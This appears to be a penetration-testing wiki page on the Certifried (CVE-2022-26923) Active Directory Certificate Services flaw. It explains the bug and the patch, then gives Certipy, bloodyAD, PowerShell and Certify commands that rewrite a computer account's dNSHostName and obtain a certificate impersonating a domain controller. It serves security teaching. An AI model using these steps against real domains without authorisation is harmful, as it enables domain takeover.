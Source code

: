 ```yaml
---
description: CVE-2022–26923
---
```


# Certifried

## Theory

[Certifried (CVE-2022-26923)](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) is a vulnerability discovered by [Oliver Lyak](https://twitter.com/ly4k\_) on AD CS that lets a domain-joined user escalate its privileges in the domain.

A domain user creating a computer account obtains the `Validated write to DNS host name`  and `Validated write to service principal name` permissions (among other rights). Therefore, the user is allowed to change the DNS host name (`dNSHostName`) and SPN (`servicePrincipalName`) attributes of the computer account.

Computer accounts (using the `Machine` template) use the value of the `dNSHostName` property for authentication. Attempting to change the `dNSHostName` to match another computer account raises a constraint error.&#x20;

In fact, the moment the `dNSHostName` property is edited, the domain controller makes sure to update the existing SPNs of the account so that the "hostname" part of it is updated to the new DNS hostname. If the SPNs already exist for another account in Active Directory, the domain controllers raises the constraint violation.

The trick found by Oliver goes as follows:

1. clear the SPNs (or at least those that reflect the `dNSHostName` value, i.e. the ones with fully-qualified hostnames, e.g. `HOST/SRV01.DOMAIN.LOCAL`)
2. change to `dNSHostName` to a target's DNS hostname (e.g. `DC.DOMAIN.LOCAL`). The constraint violation won't be raised since there won't be any SPN to update
3. request a certificate for the computer account using the `Machine` template. The Certificate Authority will use the `dNSHostName` value for identification and issue a certificate for the Domain Controller.
4. Authenticate as the DC.

A patch was released in may 2022 to address this vulnerability: [more information here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4#db1c) and on [#certificate-mapping](certificate-templates.md#certificate-mapping "mention").

## Practice

### Detecting unpatched targets

Requesting a certificate based on the `Machine` (or `User`) template can indicate whether the patch has been applied or not. If the certificate object contains an SID (`objectSid`), then the patch has been applied.

{% tabs %}
{% tab title="UNIX-like" %}
This check can be conducted using [Certipy](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&source=web\&cd=\&cad=rja\&uact=8\&ved=2ahUKEwjCp86j1fb3AhWpzYUKHSMeBFoQFnoECA8QAQ\&url=https%3A%2F%2Fgithub.com%2Fly4k%2FCertipy\&usg=AOvVaw1D9CAn7Ysn5XMdezp8Aemb) (Python).

{% code overflow="wrap" %}
```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'User'
```
{% endcode %}

If Certipy doesn't print `Certificate object SID is [...]` after obtaining the certificate, then the attack can be conducted.

{% hint style="warning" %}
Oliver [underlined](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4#08a1) the fact that to fully mitigate the vulnerability, both the KDC and the CA server must be patched.
{% endhint %}
{% endtab %}

{% tab title="Machine" %}
_At the time of writing this recipe, June 2022, no Windows alternative has been found._
{% endtab %}
{% endtabs %}

### Conducting the attack

#### Creating a computer account

The first step of the attack consists in creating a computer account ([machineaccountquota.md](../domain-settings/machineaccountquota.md "mention"), [#create-a-computer-account](../domain-settings/machineaccountquota.md#create-a-computer-account "mention")), or have the write permission to the `dNSHostName` and `servicePrincipalName` attributes of another.

#### `dNSHostName` and `servicePrincipalName` modification

The second step is conducted by removing the SPNs that reflect the `dNSHostName` value, and then modifying the `dNSHostName` to the name of the computer account to impersonate.

{% tabs %}
{% tab title="UNIX-like" %}
The [bloodyAD](https://github.com/CravateRouge/bloodyAD) (Python) tool can be used on UNIX-like systems to operated these changes.

{% code overflow="wrap" %}
```bash
# Clearing the SPNs
bloodyAD.py -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP setAttribute 'CN=$COMPUTER_NAME,CN=Computers,DC=$DC,DC=$DC' serviceprincipalname '[]'

# Setting the dNSHostName value to the name of a computer account to impersonate
bloodyAD.py -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP setAttribute 'CN=$COMPUTER_NAME,CN=Computers,DC=$DC,DC=$DC' dnsHostName '["$DC_NAME.$DOMAIN"]'

# Verifying the dNSHostName value and SPN entries
bloodyAD.py -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP getObjectAttributes 'CN=$COMPUTER_NAME,CN=Computers,DC=$DC,DC=$DC' dnsHostName,serviceprincipalname
```
{% endcode %}

{% hint style="info" %}
The Domain Components (DC) are the different parts of the domain name (`DC=domain,DC=local` for `domain.local`, or `DC=sub,DC=domain,DC=local` for `sub.domain.local`).
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
The [Active Directory RSAT](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) tools can be used on Windows systems to operate these changes.

```bash
# Clearing the SPNs
Set-ADComputer $COMPUTER_NAME -ServicePrincipalName @{}

# Setting the dNSHostName value to the name of a computer account to impersonate
Set-ADComputer $COMPUTER_NAME -DnsHostName $DC_NAME.$DOMAIN_FQDN

# Verifying the dNSHostName value and SPN entries
Get-ADComputer $COMPUTER_NAME -properties dnshostname,serviceprincipalname
```
{% endtab %}
{% endtabs %}

#### Obtaining a certificate

The third and last step consists in getting the certificate of the targeted machine account (`$DC_NAME` in the previous command examples).

{% tabs %}
{% tab title="UNIX-like" %}
[Certipy](https://github.com/ly4k/Certipy) (Python) can be used to request the certificate from UNIX-like systems.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>certipy req -u 'compter$'@"$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'Machine'
</strong></code></pre>

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
[Certify](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&source=web\&cd=\&cad=rja\&uact=8\&ved=2ahUKEwiQmZer1fb3AhVBhRoKHSCyAMoQFnoECAcQAQ\&url=https%3A%2F%2Fgithub.com%2FGhostPack%2FCertify\&usg=AOvVaw0HjmYWwbHvGKTA3-f1iPP0) (C#) can be used to request the certificate from Windows systems.

{% code overflow="wrap" %}
```batch
Certify.exe request /ca:"domain\ca" /template:"Machine"
```
{% endcode %}

The certificate can then be used with [Pass-the-Certificate](https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate) to obtain a TGT and authenticate.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4" %}

{% embed url="https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923" %}

{% embed url="https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html" %}

{% embed url="https://tryhackme.com/room/cve202226923" %}
